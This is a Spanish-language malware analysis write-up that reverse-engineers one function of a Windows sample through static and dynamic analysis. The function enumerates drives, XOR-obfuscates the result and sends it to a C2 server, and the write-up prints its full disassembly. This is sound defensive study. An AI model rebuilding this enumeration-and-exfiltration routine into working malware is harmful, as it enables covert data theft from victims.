


# FUN_004018C0 - Opcode 1

La función FUN_004018c0 realiza una enumeración de unidades lógicas (discos) del sistema y recopila información sobre ellas, para enviarla a un servidor C2. También aplica una ofuscación con XOR a los datos recopilados antes de enviarlos mediante una llamada a WS2_32.DLL::Ordinal_19 (send()).


✅ Resumen funcional
- Obtiene las unidades lógicas del sistema (GetLogicalDrives).
- Para cada letra de unidad activa (A: a Z:):
    - Construye el nombre de la unidad (X:).
    - Consulta su tipo (GetDriveTypeA).
    - Llama a FUN_004034aa, para obtener info como volumen, espacio libre, etc.
- Construye una estructura de salida con los resultados.
- Ofusca con XOR 0x55 los primeros 256 bytes de datos.
- Envía los datos con WS2_32::Ordinal_19.


Construye nombre de unidad y obtiene tipo:
```
MOV CL, BL
ADD CL, 0x41             ; 'A' + index → letra de unidad
MOV [ESP+0x18], CL       ; X:
MOV [ESP+0x19], ':'      
MOV [ESP+0x1a], 0
CALL GetDriveTypeA       ; devuelve tipo: 2 = floppy, 3 = HDD, 5 = CD-ROM, etc.
```


Ofusca con XOR:
```
XOR BL, 0x55
MOV [ESP + offset], BL
INC EAX
CMP EAX, 0x100
JL repeat

```
Aplica XOR 0x55 sobre los 256 bytes del buffer de salida. Es una técnica común para evitar detección de contenido plano en la red o al escribir en disco.


Envía los datos:
```
PUSH 0
PUSH 0x100                         ; longitud
PUSH buffer + 0x28                ; datos (después del encabezado)
PUSH socket(?)                    ; puntero pasado como `param_1`
CALL Ordinal_19 (prob. send)
```

Esta función es parte de la fase de recolección de información (host enumeration) del malware. Se ejecuta para:
- Mapear las unidades del sistema.
- Obtener información sobre tipo de dispositivo y posiblemente contenido.
- Ofuscar el resultado.
- Enviarlo al servidor de comando y control (C2).


**En FUN_004018c0**, esta función (FUN_004034aa) es llamada por cada unidad de disco detectada. Entonces, FUN_004034aa:
- Recibe una letra de unidad (param_2, ej. "C:\").
- Rellena param_1 con info obtenida de FUN_00404f0d.
- Se asegura de que el buffer termine en \0.
- Si falla, limpia el buffer con FUN_00404df8.


**FUN_004034aa** es una función puente para obtener información sobre un disco o unidad dada. Su flujo es:
- Configurar punteros y límites.
- Llamar a una función principal de recolección (FUN_00404f0d).
- Manejar errores y limpiar si es necesario.
- Retornar el resultado.


**FUN_00404f0d:**
- Recibe un puntero doble a un buffer de salida (char **out_buf).
- Recibe una cadena con formato ("%s", "%d", etc.").
- Procesa esa cadena y sustituye los tokens de formato con datos de args_struct (param_3).
- Devuelve el número de caracteres escritos (como vsnprintf), o negativo en caso de error.
- Oculta qué información se escribe realmente, ya que lo hace en tiempo de ejecución.
- Evita detección por reglas estáticas (YARA, etc.), ya que no usa sprintf, snprintf ni funciones estándar.
- Permite construir mensajes con información del sistema (como las unidades disponibles y su tipo).


**FUN_00404df8:**

Esta función forma parte del sistema de formateo de strings personalizado del malware. Esta función parece encargarse de emitir un carácter al stream de salida, teniendo en cuenta la estructura de control usada por el parser principal.

Esta función es el núcleo de la salida de texto de bajo nivel. Está escrita desde cero para:
- Evitar dependencias estándar (putc, fwrite).
- Permitir escribir a buffers en memoria, sockets, o estructuras de archivo personalizadas.
- Controlar el formato de forma segura (restringiendo overflow).

🔗 Relación con el formateo:  
Se usa directamente desde FUN_004034aa, que a su vez llama a FUN_00404f0d para formatear mensajes, nombres de unidades, info del host, etc. Todo el mecanismo de salida textual del malware depende de esta función.

_____________________________________
# Analisis dinámico de la FUN_004018C0-opcode1
## OPCODE 1

### Listener en python para poder probar este opcode
[listener-opcode1 y 2.py](../analisis-dinamico/listener-opcode-1-2.py)

Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode1.py
```

### Entra en el OPCODE1 --> 0040170A
Vemos el código de la fución donde se escogen las diferentes opciones que ejecuta el malware. Opción 1.  


Vemos en x32dbg el paso por esta instrucción en donde se elige la opción 1:


### Entra en FUN_004018C0 - Inicio de la rutina

Observamos el socket/contexto que llega como parámetro ya que se usará luego en [ESP+0x154].


### 004018E1 – GetLogicalDrives - Enumera unidades
Usa la API GetLogicalDrives para enumerar las unidades de la máquina víctima

Verificamos el bitmask de unidades en EAX/EDX.

**GetLogicalDrives devuelve en EAX un bitmask (DWORD)** donde cada bit indica si existe una unidad:
- bit 0 → A:
- bit 1 → B:
- bit 2 → C:
- …
- bit 25 → Z:

Si un bit está a 1, esa letra de unidad está presente.

**Ejemplos rápidos:**
- Si EAX = 0x0000000C → 0000 1100b ⇒ C: (bit 2) y D: (bit 3).
- Si EAX = 0x00000025 → 0010 0101b ⇒ A:, C:, F:.

**Finaliza esta rutina de GetLogicalDrives:**

Vemos que al final de la ejecución de esta API, EAX = 0x0200000C.

**Desglosando 0x0200000C:**
- 0x0000000C = 0000…1100b → bits 2 y 3 a 1 ⇒ C: y D: presentes.
- 0x02000000 = 1 << 25 → bit 25 a 1 ⇒ Z: presente (muy típico: carpeta compartida de VM en Z:).
- El sistema reporta C:, D: y Z:.

### 0040192C – GetDriveTypeA - Tipo de unidad y letra
**Inicio de la Rutina:**

Justo antes, en [ESP+18] está la letra ('A:', 'C:', etc.). Tras el call, EAX → tipo (2=removable, 3=fixed, 4=remote, 5=CDROM).


**Ultima iteración de la rutina:**

- Estamos en la ultima iteración de GetDriveTypeA, analizando la unidad **"Z:"**.
- Vemos que ESI es el puntero origen (“source index”).
- En esta rutina lo cargan con la dirección de la cadena formateada que acaba de crear FUN_004034AA (por ej. "Z:\3" o "C:\1"), ubicada en la pila en &[esp+30]. Luego:
- ESI = src → esa cadena en claro.
- EDI = dst → &[esp+24], que es el buffer del bloque de 256 B.
- Copian con rep movsd/movsb de ESI a EDI.
- Después ese bloque en [esp+24] se XOR 0x55 y se envía por socket.


Lo que debemos mirar justo después del call. Damos un F8 (Step over) y observamos EAX; ese es el tipo de unidad que devuelve GetDriveTypeA(rootPathName):
| EAX | Constante WinAPI     | Significado          |
| --- | -------------------- | -------------------- |
| 0   | DRIVE\_UNKNOWN       | Desconocido          |
| 1   | DRIVE\_NO\_ROOT\_DIR | Sin raíz válida      |
| 2   | DRIVE\_REMOVABLE     | Extraíble (USB, etc) |
| 3   | DRIVE\_FIXED         | Fija (HDD/SSD)       |
| 4   | DRIVE\_REMOTE        | Red (mapeada)        |
| 5   | DRIVE\_CDROM         | CD/DVD               |
| 6   | DRIVE\_RAMDISK       | RAM disk             |


### 0040196D – FUN_004034AA - Formateo de string (sprintf-like)

Tras volver (en 00401972), mira los buffers temporales:
- &[ESP+30] (fuente recién formateada),
- &[ESP+24] (destino donde la copian acto seguido).


### 004019DE – inicio del XOR - Bucle XOR 0x55 de 256 bytes

- 004019DE – inicio del XOR sobre byte ptr [ESP+24 + EAX].
    - Recorre EAX=0..0xFF y hace buf[i] ^= 0x55.
- 004019EF – fin del bucle (EAX==0x100).


### 00401A05 – WS2_32.DLL::Ordinal_19 - Envío por socket (Winsock ordinal → send)

- 00401A05 – WS2_32.DLL::Ordinal_19 ≈ send(s, buf, 0x100, 0). En el momento del call:
    - [ESP+00] → SOCKET (ECX cargado desde [ESP+0x154] previamente).
    - [ESP+04] → buf (EAX = &[ESP+28] → ojo: el bloque ya copiado/XOR pasa a [ESP+28] / [ESP+24] según el tramo).
    - [ESP+08] → len = 0x100.
    - [ESP+0C] → flags = 0.
    - Miramos EAX. Ahí tenemos el puntero al buffer de 256 bytes (XOR 0x55) que se va a enviar.
    - ECX = 000002C4 → SOCKET
    - EAX = 0019F874 → buf (abrimos un Dump en esa dirección para ver el contenido)
      
    - En la pila:
        - [esp] = socket
        - [esp+4] = buf (mismo valor que EAX = 0019F874)
        - [esp+8] = len (0x100)
        - [esp+0C]= flags (0)

    - EDI apunta a una zona con 'U' repetidas (0x55), coherente con el XOR
      
    - Nota: Si entramos dentro de ws2_32!send (con F7), El contenido que se va a enviar está en el puntero [esp+8]
      


- Siguiente instrucción 00401A0B – break para leer EAX (bytes enviados o SOCKET_ERROR).


### Indicadores


- Ese “prefijo” (b'v\x16od\x11og\x0fofv' seguido de muchos UUUU): es contenido ofuscado con XOR 0x55. Si aplicamoss XOR 0x55 byte a byte, veremos el texto legible (drive letters/cadenas base).
- Los dos bytes que vemos salir del cliente justo al empezar opcode 2:
  - 'o' (0x6F) = OK, hay coincidencias.
  - 'q' (0x71) = no hubo coincidencias para el patrón.

### Des-ofuscar haciendo XOR 0x55 a cada byte
```
b'v\x16od\x11og\x0fofv' + muchos UUUUUUUUUU
```
**Primero sacamos los valores hex de cada caracter:**
- v = 0x76
- \x16 = 0x16
- o = 0x6F
- d = 0x64
- \x11 = 0x11
- o = 0x6F
- g = 0x67
- \x0f = 0x0F
- o = 0x6F
- f = 0x66
- v = 0x76

**Ahora aplicamos XOR 0x55 (85 decimal) a cada byte:**
- 0x76 ^ 0x55 = 0x23 → '#'
- 0x16 ^ 0x55 = 0x43 → 'C'
- 0x6F ^ 0x55 = 0x3A → ':'
- 0x64 ^ 0x55 = 0x31 → '1'
- 0x11 ^ 0x55 = 0x44 → 'D'
- 0x6F ^ 0x55 = 0x3A → ':'
- 0x67 ^ 0x55 = 0x32 → '2'
- 0x0F ^ 0x55 = 0x5A → 'Z'
- 0x6F ^ 0x55 = 0x3A → ':'
- 0x66 ^ 0x55 = 0x33 → '3'
- 0x76 ^ 0x55 = 0x23 → '#'

Cada U ofuscado se convierte en un byte nulo (\x00).

**Resultado: "#C:1D:2Z:3#" + "\x00\x00\x00\x00\x00..."** 

**Vuelve al menu switch del C2 para recibir otro opcode y continuar su ejecución**
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_004018c0(undefined4 param_1)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             undefined1        Stack[-0x12a   local_12a                               XREF[1]:     004018d9(*)  
             undefined2        Stack[-0x12c   local_12c                               XREF[1]:     004018cd(W)  
                             FUN_004018c0                                    XREF[1]:     FUN_004012f0:00401711(c)  
        004018c0 81 ec 40        SUB        ESP,0x140
                 01 00 00
        004018c6 66 a1 54        MOV        AX,[DAT_0040a154]                                = 23h
                 a1 40 00
        004018cc 57              PUSH       EDI
        004018cd 66 89 44        MOV        word ptr [ESP + local_12c],AX
                 24 18
        004018d2 b9 4a 00        MOV        ECX,0x4a
                 00 00
        004018d7 33 c0           XOR        EAX,EAX
        004018d9 8d 7c 24 1a     LEA        EDI=>local_12a,[ESP + 0x1a]
        004018dd f3 ab           STOSD.REP  ES:EDI
        004018df 66 ab           STOSW      ES:EDI
        004018e1 ff 15 18        CALL       dword ptr [->KERNEL32.DLL::GetLogicalDrives]     = 000098a0
                 90 40 00
        004018e7 8b d0           MOV        EDX,EAX
        004018e9 85 d2           TEST       EDX,EDX
        004018eb 89 54 24 04     MOV        dword ptr [ESP + 0x4],EDX
        004018ef 0f 84 19        JZ         LAB_00401a0e
                 01 00 00
        004018f5 53              PUSH       EBX
        004018f6 55              PUSH       EBP
        004018f7 8b 6c 24 0c     MOV        EBP,dword ptr [ESP + 0xc]
        004018fb 56              PUSH       ESI
        004018fc 33 db           XOR        EBX,EBX
                             LAB_004018fe                                    XREF[1]:     004019aa(j)  
        004018fe 8b c2           MOV        EAX,EDX
        00401900 8b cb           MOV        ECX,EBX
        00401902 d3 e8           SHR        EAX,CL
        00401904 85 c0           TEST       EAX,EAX
        00401906 0f 84 a4        JZ         LAB_004019b0
                 00 00 00
        0040190c a8 01           TEST       AL,0x1
        0040190e 0f 84 92        JZ         LAB_004019a6
                 00 00 00
        00401914 8a cb           MOV        CL,BL
        00401916 8d 54 24 14     LEA        EDX,[ESP + 0x14]
        0040191a 80 c1 41        ADD        CL,0x41
        0040191d 52              PUSH       EDX
        0040191e 88 4c 24 18     MOV        byte ptr [ESP + 0x18],CL
        00401922 c6 44 24        MOV        byte ptr [ESP + 0x19],0x3a
                 19 3a
        00401927 c6 44 24        MOV        byte ptr [ESP + 0x1a],0x0
                 1a 00
        0040192c ff 15 14        CALL       dword ptr [->KERNEL32.DLL::GetDriveTypeA]        = 00009890
                 90 40 00
        00401932 83 f8 02        CMP        EAX,0x2
        00401935 75 04           JNZ        LAB_0040193b
        00401937 33 ed           XOR        EBP,EBP
        00401939 eb 22           JMP        LAB_0040195d
                             LAB_0040193b                                    XREF[1]:     00401935(j)  
        0040193b 83 f8 03        CMP        EAX,0x3
        0040193e 75 07           JNZ        LAB_00401947
        00401940 bd 01 00        MOV        EBP,0x1
                 00 00
        00401945 eb 16           JMP        LAB_0040195d
                             LAB_00401947                                    XREF[1]:     0040193e(j)  
        00401947 83 f8 05        CMP        EAX,0x5
        0040194a 75 07           JNZ        LAB_00401953
        0040194c bd 02 00        MOV        EBP,0x2
                 00 00
        00401951 eb 0a           JMP        LAB_0040195d
                             LAB_00401953                                    XREF[1]:     0040194a(j)  
        00401953 83 f8 04        CMP        EAX,0x4
        00401956 75 05           JNZ        LAB_0040195d
        00401958 bd 03 00        MOV        EBP,0x3
                 00 00
                             LAB_0040195d                                    XREF[4]:     00401939(j), 00401945(j), 
                                                                                          00401951(j), 00401956(j)  
        0040195d 8d 44 24 14     LEA        EAX,[ESP + 0x14]
        00401961 55              PUSH       EBP
        00401962 50              PUSH       EAX
        00401963 8d 4c 24 28     LEA        ECX,[ESP + 0x28]
        00401967 68 4c a1        PUSH       DAT_0040a14c                                     = 25h    %
                 40 00
        0040196c 51              PUSH       ECX
        0040196d e8 38 1b        CALL       FUN_004034aa                                     int FUN_004034aa(undefined1 * pa
                 00 00
        00401972 8d 7c 24 30     LEA        EDI,[ESP + 0x30]
        00401976 83 c9 ff        OR         ECX,0xffffffff
        00401979 33 c0           XOR        EAX,EAX
        0040197b 83 c4 10        ADD        ESP,0x10
        0040197e f2 ae           SCASB.RE   ES:EDI
        00401980 f7 d1           NOT        ECX
        00401982 2b f9           SUB        EDI,ECX
        00401984 8d 54 24 24     LEA        EDX,[ESP + 0x24]
        00401988 8b f7           MOV        ESI,EDI
        0040198a 8b fa           MOV        EDI,EDX
        0040198c 8b d1           MOV        EDX,ECX
        0040198e 83 c9 ff        OR         ECX,0xffffffff
        00401991 f2 ae           SCASB.RE   ES:EDI
        00401993 8b ca           MOV        ECX,EDX
        00401995 4f              DEC        EDI
        00401996 c1 e9 02        SHR        ECX,0x2
        00401999 f3 a5           MOVSD.REP  ES:EDI,ESI
        0040199b 8b ca           MOV        ECX,EDX
        0040199d 8b 54 24 10     MOV        EDX,dword ptr [ESP + 0x10]
        004019a1 83 e1 03        AND        ECX,0x3
        004019a4 f3 a4           MOVSB.REP  ES:EDI,ESI
                             LAB_004019a6                                    XREF[1]:     0040190e(j)  
        004019a6 43              INC        EBX
        004019a7 83 fb 1a        CMP        EBX,0x1a
        004019aa 0f 8c 4e        JL         LAB_004018fe
                 ff ff ff
                             LAB_004019b0                                    XREF[1]:     00401906(j)  
        004019b0 bf 54 a1        MOV        EDI,DAT_0040a154                                 = 23h
                 40 00
        004019b5 83 c9 ff        OR         ECX,0xffffffff
        004019b8 33 c0           XOR        EAX,EAX
        004019ba 8d 54 24 24     LEA        EDX,[ESP + 0x24]
        004019be f2 ae           SCASB.RE   ES:EDI=>DAT_0040a154                             = 23h
        004019c0 f7 d1           NOT        ECX
        004019c2 2b f9           SUB        EDI,ECX
        004019c4 8b f7           MOV        ESI,EDI
        004019c6 8b d9           MOV        EBX,ECX
        004019c8 8b fa           MOV        EDI,EDX
        004019ca 83 c9 ff        OR         ECX,0xffffffff
        004019cd f2 ae           SCASB.RE   ES:EDI
        004019cf 8b cb           MOV        ECX,EBX
        004019d1 4f              DEC        EDI
        004019d2 c1 e9 02        SHR        ECX,0x2
        004019d5 f3 a5           MOVSD.REP  ES:EDI,ESI=>DAT_0040a154                         = 23h
        004019d7 8b cb           MOV        ECX,EBX
        004019d9 83 e1 03        AND        ECX,0x3
        004019dc f3 a4           MOVSB.REP  ES:EDI,ESI=>DAT_0040a154                         = 23h
                             LAB_004019de                                    XREF[1]:     004019ef(j)  
        004019de 8a 5c 04 24     MOV        BL,byte ptr [ESP + EAX*0x1 + 0x24]
        004019e2 80 f3 55        XOR        BL,0x55
        004019e5 88 5c 04 24     MOV        byte ptr [ESP + EAX*0x1 + 0x24],BL
        004019e9 40              INC        EAX
        004019ea 3d 00 01        CMP        EAX,0x100
                 00 00
        004019ef 7c ed           JL         LAB_004019de
        004019f1 8b 8c 24        MOV        ECX,dword ptr [ESP + 0x154]
                 54 01 00 00
        004019f8 6a 00           PUSH       0x0
        004019fa 8d 44 24 28     LEA        EAX,[ESP + 0x28]
        004019fe 68 00 01        PUSH       0x100
                 00 00
        00401a03 50              PUSH       EAX
        00401a04 51              PUSH       ECX
        00401a05 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00401a0b 5e              POP        ESI
        00401a0c 5d              POP        EBP
        00401a0d 5b              POP        EBX
                             LAB_00401a0e                                    XREF[1]:     004018ef(j)  
        00401a0e 5f              POP        EDI
        00401a0f 81 c4 40        ADD        ESP,0x140
                 01 00 00
        00401a15 c3              RET
```
